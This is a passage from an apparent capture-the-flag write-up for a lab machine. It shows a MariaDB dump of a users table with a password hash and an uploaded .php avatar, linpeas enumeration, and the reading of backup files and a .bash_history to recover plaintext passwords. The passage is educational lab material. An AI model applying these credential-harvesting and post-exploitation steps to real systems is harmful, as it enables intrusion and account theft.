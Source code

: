 ```console
| information_schema |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use gallery_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [gallery_db]> show tables;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
| images               |
| system_info          |
| users                |
+----------------------+
4 rows in set (0.00 sec)

MariaDB [gallery_db]> select * from users;
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                          | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1666074420_TagojeiavxeyjeimuxrLetta.php | NULL       |    1 | 2021-01-20 14:02:37 | 2022-10-18 06:27:37 |
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)

MariaDB [gallery_db]>
```
On loading linpeas.sh found that there is a backup folder for the user, with accounts.tx file
```console
www-data@gallery:/var/backups/mike_home_backup/documents$ cat accounts.txt
Spotify : mike@gmail.com:mycat666
Netflix : mike@gmail.com:123456789pass
TryHackme: mike:darkhacker123
```
All these creds are useless so looked at .bash_history in the backup folder and found password for the user mike `b3stpassw0rdbr0xx` .
```console
www-data@gallery:/var/backups/mike_home_backup$ cat .bash_history
cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -lb3stpassw0rdbr0xx
clear
sudo -l
exit
```
